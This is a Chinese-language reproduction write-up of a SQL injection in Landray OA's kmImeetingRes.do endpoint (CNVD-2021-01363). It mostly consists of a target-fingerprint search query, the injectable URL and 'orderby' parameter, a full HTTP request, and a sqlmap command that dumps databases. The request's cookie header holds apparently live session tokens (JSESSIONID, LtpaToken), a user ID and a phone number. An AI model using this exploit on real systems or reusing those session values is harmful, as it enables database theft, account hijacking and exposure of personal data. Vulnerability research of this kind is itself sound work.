

# 蓝凌OA kmImeetingRes.do 后台SQL注入漏洞 CNVD-2021-01363

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

存在SQL注入的 Url为,这里拿官方的演示站点演示漏洞过程

```plain
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

其中存在SQL注入的参数为 `ordeby` ， 数据包如下

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: 
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```


保存为文件，使用 Sqlmap 跑一下注入

```plain
sqlmap -r sql.txt -p orderby --dbs
```

